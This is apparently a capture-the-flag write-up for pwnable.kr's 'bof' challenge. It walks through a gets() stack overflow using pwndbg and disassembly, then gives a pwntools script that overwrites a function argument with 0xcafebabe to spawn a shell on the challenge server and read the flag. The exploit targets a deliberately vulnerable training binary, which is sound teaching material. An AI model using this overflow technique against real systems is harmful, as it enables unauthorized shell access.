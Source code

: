 # bof
The third challenge from pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : `nc pwnable.kr 9000`

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Immediately you can notice that this is a buffer overflow due to the use of insecure gets(), which doesn't specify a buffer limit.

We need to overwrite the variable `key` so that it equals `0xcafebabe` in order to get `/bin/sh` access.

`key` is a parameter in this function and it's set to `0xdeadbeef`, so let's open up pwndbg to find that on the stack and figure out the length of our padding.

`pwndbg ./bof`

```
pwndbg> b gets
Breakpoint 1 at 0x4c0
pwndbg> r
Starting program: /home/ctf/challenges/bof/bof
overflow me :

Breakpoint 1, 0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
```

```
pwndbg> finish
Run till exit from #0  0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
aaaaaaaaaaaaaaaa
```

```
pwndbg> x/100x $esp
0xffaf6040:	0xffaf605c	0x00000000	0x000000c2	0xf75f7d56
0xffaf6050:	0xffffffff	0xffaf607e	0xf756dc34	0x61616161
0xffaf6060:	0x61616161	0x61616161	0x61616161	0x56585400
0xffaf6070:	0xffaf788f	0x0000002f	0x56586ff4	0x5799de00
0xffaf6080:	0x565856b0	0x56585530	0xffaf60a8	0x5658569f
0xffaf6090:	0xdeadbeef	0xf7743000	0x565856b9	0xf770e000
```

We can see by examining, in hex representation, that our target is 52 bytes away from the start of our input, a = 0x61

Let's pad 52 bytes then add 0xcafebabe.

```python
from pwn import *

conn = remote('pwnable.kr', 9000)

p = 'a'*52
p += p32(0xcafebabe)

conn.sendline(p)

conn.interactive()
```

# Solution Revisions

Upon dissembling bof and inspecting function `func`, we can more precisely pad our overflow.

```Disassembly
0000062c <func>:
 62c:	55                   	push   %ebp
 62d:	89 e5                	mov    %esp,%ebp
 62f:	83 ec 48             	sub    $0x48,%esp
 632:	65 a1 14 00 00 00    	mov    %gs:0x14,%eax
 638:	89 45 f4             	mov    %eax,-0xc(%ebp)
 63b:	31 c0                	xor    %eax,%eax
 63d:	c7 04 24 8c 07 00 00 	movl   $0x78c,(%esp)
 644:	e8 fc ff ff ff       	call   645 <func+0x19>
 649:	8d 45 d4             	lea    -0x2c(%ebp),%eax
 64c:	89 04 24             	mov    %eax,(%esp)
 64f:	e8 fc ff ff ff       	call   650 <func+0x24>
 654:	81 7d 08 be ba fe ca 	cmpl   $0xcafebabe,0x8(%ebp)
 65b:	75 0e                	jne    66b <func+0x3f>
 65d:	c7 04 24 9b 07 00 00 	movl   $0x79b,(%esp)
 664:	e8 fc ff ff ff       	call   665 <func+0x39>
 669:	eb 0c                	jmp    677 <func+0x4b>
 66b:	c7 04 24 a3 07 00 00 	movl   $0x7a3,(%esp)
 672:	e8 fc ff ff ff       	call   673 <func+0x47>
 677:	8b 45 f4             	mov    -0xc(%ebp),%eax
 67a:	65 33 05 14 00 00 00 	xor    %gs:0x14,%eax
 681:	74 05                	je     688 <func+0x5c>
 683:	e8 fc ff ff ff       	call   684 <func+0x58>
 688:	c9                   	leave  
 689:	c3                   	ret   
```

A buffer of size 0x2c is created with the `lea    -0x2c(%ebp),%eax` instruction.

Adding another 8 bytes to overflow $ebp and saved $eip would give us the correct size of our buffer.


### Capturing the Flag

```sh
(ctftools)ctf@b1b157128929:~/challenges/bof$ python exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
